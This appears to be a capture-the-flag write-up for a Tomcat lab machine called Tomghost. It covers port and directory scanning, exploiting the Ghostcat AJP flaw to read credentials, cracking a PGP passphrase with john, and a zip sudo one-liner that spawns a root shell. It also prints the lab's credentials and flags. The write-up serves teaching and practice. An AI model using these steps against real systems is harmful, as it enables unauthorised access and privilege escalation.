 # Tomghost - Linux Easy

*Machine IP may vary over the readme*

## Enumeration

### Nmap: `nmap -sV 10.10.89.96 -oN nmap-initial`

```bash
PORT      STATE    SERVICE    VERSION
22/tcp    open     ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
53/tcp    open     tcpwrapped
8009/tcp  open     ajp13      Apache Jserv (Protocol v1.3)
8080/tcp  open     http       Apache Tomcat 9.0.30
50300/tcp filtered unknown
```

**Apache Tomcat 9.0.30** - seems useful

### Gobuster: `gobuster dir -u http://10.10.89.96:8080/ --wordlist=../common_wl.txt| tee gobuster-scan`

```bash
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/favicon.ico          (Status: 200) [Size: 21630]             
/host-manager         (Status: 302) [Size: 0] [--> /host-manager/]
/manager              (Status: 302) [Size: 0] [--> /manager/]    
```

Nothing special here... Not able to visit */host-manager* and */manager* as it can be only visited by localhost.

Lets run nikto now. See if we can get something

### Nikto: `nikto -u http://10.10.89.96:8080/`

Nikto returns some interesting results mainly: 

`OSVDB-397: HTTP method 'PUT' allows clients to save files on the web server.`

Maybe I can put a reverse shell script on server and try getting back a shell. Well did try this using curl but didn't work. I guess it needs a specific dir to put files to but I wasn't able to either access or even confirm if the directory was there. Gotta think something else. 

Then I noticed something the room has a picture of a cat with text **GHOSTCAT**. Let's google about that.

`Ghostcat is a serious vulnerability in Tomcat discovered by security researcher of Chaitin Tech. Due to a flaw in the Tomcat AJP protocol, an attacker can read or include any files in the webapp directories of Tomcat. For example, An attacker can read the webapp configuration files or source code`

```
If the AJP Connector is enabled and the attacker can access the AJP Connector service port, there is a risk of being exploited by the Ghostcat vulnerability.

It should be noted that Tomcat AJP Connector is enabled by default and listens at 0.0.0.0:8009
```

OK I know from nmap results that there is something called as *ajp13* running on port 8009. Maybe I check this out.

Using *searchsploit* for exploitation script if any: `searchsploit ghostcat`

There is a python script which requires address as a command line argument for the script. Let's run that and see what we can get. There it is:

```xml
<description>
     Welcome to GhostCat
        skyfuck:8730281lkjlkjdqlksalks
</description>
```

We got a username and a password. Let's try ssh. And we are in.

## User.txt

Doing `ls -al` reveals two files. No user flag file here. Let's check the users on the system using: `grep -E "/bin/.*sh" /etc/passwd`

```bash
root:x:0:0:root:/root:/bin/bash
merlin:x:1000:1000:zrimga,,,:/home/merlin:/bin/bash
skyfuck:x:1002:1002:tryhackme TRIAL PoC,3871289312,2931923021,2391293912,2031201201:/home/skyfuck:/bin/bash
```

Let's check the home dir of user merlin. `ls -al ../merlin`

There it is `-rw-rw-r-- 1 merlin merlin   26 Mar 10  2020 user.txt`. It can be read by anyone. Nice!

cat out the file and we have our user flag: `THM{GhostCat_1s_so_cr4sy}`

## Root.txt

Doing `sudo -l` reveals that user *skyfuck* is not allowed to run sudo. Maybe find will help.

`find / -perm -u=s -type f 2>/dev/null`

```bash
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/bin/vmware-user-suid-wrapper
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/newgrp
/bin/mount
/bin/ping
/bin/umount
/bin/fusermount
/bin/su
/bin/ping6
```

Nothing here I can use. I need to switch my user somehow.

In the directory */home/skyfuck* there are two files - **credential.pgp** and **tryhackme.asc**.

Using gpg to import and decrypt file reveals that it needs a passphrase for that. 

```bash
gpg --import tryhackme.asc

gpg --decrypt credential.pgp 
You need a passphrase to unlock the secret key for
user: "tryhackme <stuxnet@tryhackme.com>"
1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11 (main key ID C6707170)
gpg: gpg-agent is not available in this session
Enter passphrase: 
```

Guess gotta look for john. Move the files to your attacking machine using *scp* and run *gpg2john* on the tryhackme.asc file.

`gpg2john *.asc > hash`

Let's decrypt that using john: `john hash --wordlist=rockyou.txt`

We got our passphrase: `alexandru        (tryhackme)`

Using the passphrase we got *merlins* password: `asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j`

Doing `sudo -l` as merlin we get: 

```bash
User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip 
```

Executing the folowing commands taken from [gftobins](https://gtfobins.github.io/gtfobins/zip/) for priv esc will result in root user.

```bash
TF=$(mktemp -u)
zip $TF /etc/hosts -T -TT 'sh #'
rm $TF
```

Just cat out the root flag now at */root/root.txt*: `THM{Z1P_1S_FAKE}`

